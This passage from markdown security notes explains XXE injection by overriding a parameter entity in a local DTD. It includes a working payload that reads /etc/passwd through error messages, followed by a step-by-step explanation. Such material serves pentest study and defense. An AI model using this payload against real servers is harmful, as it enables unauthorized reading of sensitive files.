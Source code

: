 Alternatively, it's possible to combine both [Insecure File Upload](Insecure%20File%20Upload.md) and [Information Disclosure](Information%20Disclosure.md) vulnerabilities to upload arbitrary files and use them as local DTD.

### Overwriting an already defined XML parameter

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
	<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
'>
%local_dtd;
]>
```

This DTD carries out the following steps:

- Defines an XML parameter entity called `local_dtd`, containing the contents of the external DTD file that exists on the server filesystem.
- Redefines the XML parameter entity called `custom_entity`, which is already defined in the external DTD file. The entity is redefined as containing the [XXE: retrieve data via error messages](XML%20External%20Entity%20Injection%20(XXE%20Injection).md#XXE:%20retrieve%20data%20via%20error%20messages) payload that was already described, for triggering an error message containing the contents of the `/etc/passwd` file.
- Uses the `local_dtd` entity, so that the external DTD is interpreted, including the redefined value of the `custom_entity` entity. This results in the desired error message.

![](../../zzz_res/attachments/XXE-local_dtd.png)

### XInclude attacks
